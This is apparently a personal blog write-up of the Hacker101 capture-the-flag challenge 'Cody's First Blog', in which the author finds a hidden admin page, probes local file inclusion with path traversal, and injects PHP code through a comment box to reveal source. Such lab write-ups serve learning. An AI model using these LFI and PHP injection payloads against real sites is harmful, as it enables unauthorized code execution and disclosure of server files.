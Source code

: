 +++
title = "Cody's First Blog"
date = 2020-12-31
[taxonomies]
tags = ["hackerone"]
+++

### Flag0

1.  "Cody's First Blog"

    Inspecting the source reveals a URL that leads to an admin page:

    ```
    <!--<a href="?page=admin.auth.inc">Admin login</a>-->
    ```

    Navigation to URL:

    ```
    http://34.74.105.127/1512748f68/?page=admin.auth.inc
    ```

    After poking around the page, I noticed there might be a potential for LFI. This enumeration process can at least can give us recon on what is running on the backend.

    ```
    Notice: Undefined variable: title in /app/index.php on line 30

    Warning: include(../../../../etc/hosts.php): failed to open stream: No such file or directory in /app/index.php on line 21

    Warning: include(): Failed opening '../../../../etc/hosts.php' for inclusion (include_path='.:/usr/share/php:/usr/share/pear') in /app/index.php on line 21
    ```

    Took note for files that had permission denied.
    ```
    Notice: Undefined variable: title in /app/index.php on line 30

    Warning: include(/var/log/apache2/access_log.php): failed to open stream: Permission denied in /app/index.php on line 21

    Warning: include(): Failed opening '/var/log/apache2/access_log.php' for inclusion (include_path='.:/usr/share/php:/usr/share/pear') in /app/index.php on line 21
    ```

    ![burp-intruder](/assets/images/h1/h1-codysfirstblog-1.png)

    Going back to the enumeration process again, I figured that if there is a text box and it's running PHP on the backend, testing for injection of PHP code would be the logical next step:

    ```
    <?php phpinfo(); ?>
    ```

    ![flag0](/assets/images/h1/h1-codysfirstblog-2.png)

    Voila, flag0 has been captured.

### Flag1

1.  Circling back to the first flag, I've found the admin page but haven't discovered any vulnerabilities yet. The admin page has a login form and a text box. The text box can be used to submit comments waiting for approval. I'm guessing this means that there must be an approval page somewhere to be found. During my enumeration of possible hidden files and directories, I've managed to guess the file `admin.inc` which leads to an admin page to approve comments. Flag1 has been captured.

    ![admin-approval](/assets/images/h1/h1-codysfirstblog-3.png)

### Flag2

1.  Circling back to the potential LFI vulnerability, I tried enumerating the files using nullbytes but no luck. I tried using SQL injection authentication bypass methods and no luck either. After reading the hints given, it does mention LFI is the likely vulnerability to be targeting for. In my first attempt in flag0, I've identified the possibilities of the files that can be read with denied permissions. What I didn't check for is, can I actually read the `index.php` file that is being hosted? I started to look for ways to read files using PHP injection.

    I took notes while I was tinkering around the possibilties, I know I can read files in the local app directory:

    ```
    http://34.74.105.127/fea3c7d20a/?page=../app/admin.auth.inc
    ```

    When loading the `index.php` file, I noticed that the page tries to append an additional `.php` extension. In order to load the page properly, the URL needs to be like this:

    ```
    http://34.74.105.127/fea3c7d20a/?page=../app/index
    ```

    I can also use LFI to call upon itself to read files:

    ```
    http://34.74.105.127/fea3c7d20a/?page=http://localhost/index
    ```

    Armed with these three findings, I can combine the finding that was used in flag1 and inject PHP code to read `index.php` file. This will cause the server to execute and render the source code for `index.php`

    ```
    <?php readfile('index.php')?>
    ```
    
    Approve the comment and trigger the LFI again. Third and final flag has been captured.

    ![flag2](/assets/images/h1/h1-codysfirstblog-4.png)